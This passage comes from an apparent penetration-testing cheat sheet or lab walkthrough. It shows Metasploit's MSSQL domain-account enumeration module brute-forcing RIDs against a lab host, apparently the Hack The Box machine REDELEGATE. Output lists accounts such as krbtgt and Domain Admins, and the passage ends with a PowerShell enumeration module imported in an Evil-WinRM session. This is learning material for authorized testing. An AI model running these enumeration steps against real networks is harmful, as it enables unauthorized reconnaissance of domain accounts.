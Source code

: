 ```console
set PASSWORD <PASSWORD>
```

```console {class="sample-code"}
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > set PASSWORD zDPBpaF4FywlqIv11vii
PASSWORD => zDPBpaF4FywlqIv11vii
```

```console
set fuzznum 10000
```

```console {class="sample-code"}
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > set fuzznum 10000
fuzznum => 10000
```

#### 4. Domain Users Enum

```console
run
```

```console {class="sample-code"}
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > run
[*] Running module against 10.129.234.50
[*] 10.129.234.50:1433 - Attempting to connect to the database server at 10.129.234.50:1433 as SQLGuest...
[+] 10.129.234.50:1433 - Connected.
[*] 10.129.234.50:1433 - SQL Server Name: WIN-Q13O908QBPG
[*] 10.129.234.50:1433 - Domain Name: REDELEGATE
[+] 10.129.234.50:1433 - Found the domain sid: 010500000000000515000000a185deefb22433798d8e847a
[*] 10.129.234.50:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.129.234.50:1433 -  - WIN-Q13O908QBPG\Administrator
[*] 10.129.234.50:1433 -  - REDELEGATE\Guest
[*] 10.129.234.50:1433 -  - REDELEGATE\krbtgt
[*] 10.129.234.50:1433 -  - REDELEGATE\Domain Admins
---[SNIP]---
```

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import Module

```console
Import-Module .\Get-SqlServer-Enum-WinAccounts.psm1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Import-Module .\Get-SqlServer-Enum-WinAccounts.psm1
Warning: Some imported command names contain one or more of the following restricted characters: # , ( ) {{ }} [ ] & - / \ $ ^ ; : " ' < > | ? @ ` * % + = ~
```

#### 2. Domain Users Enum
